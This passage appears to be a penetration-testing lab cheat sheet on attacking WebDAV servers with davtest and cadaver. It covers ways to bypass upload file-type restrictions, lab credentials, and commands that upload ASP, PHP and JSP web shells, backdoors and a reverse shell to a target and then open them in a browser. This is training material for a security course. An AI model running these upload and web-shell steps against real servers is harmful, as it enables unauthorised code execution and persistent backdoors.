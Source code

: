 ### Issue 5: File Type Restrictions
```bash
# Problem: Certain file types blocked
PUT request failed: 415 Unsupported Media Type

# Solutions:
# 1. Try different file extensions (.txt, .asp, .aspx, .php)
# 2. Use file type bypass techniques
# 3. Upload as different MIME type
# 4. Check server configuration for allowed types
```

---

## 🔗 Integration with Other Tools

### Pre-Cadaver Assessment
```bash
# Use davtest for initial WebDAV discovery and testing
davtest -auth user:pass -url http://target/webdav
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav

# Then use cadaver for precise manual operations
cadaver http://target/webdav
```

### Integration with DAVTest
**Sequential Usage Workflow:**
1. **DAVTest for Discovery:** Automated testing of WebDAV capabilities and file type support
2. **Cadaver for Exploitation:** Manual file upload, management, and precise control
3. **Combined Assessment:** Comprehensive testing followed by targeted exploitation

```bash
# Assessment phase with davtest
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav

# Manual exploitation phase with cadaver
cadaver http://demo.ine.local/webdav
put webshell.asp
ls
get web.config
```

### Integration with Web Shells and Backdoors
```bash
# Upload various web shell types using cadaver
cadaver http://target/webdav
put /usr/share/webshells/asp/cmd.asp       # ASP command shell
put /usr/share/webshells/php/simple-backdoor.php  # PHP backdoor
put /usr/share/webshells/jsp/jsp-reverse.jsp      # JSP reverse shell

# Access via web browser after upload
firefox http://target/webdav/cmd.asp
```
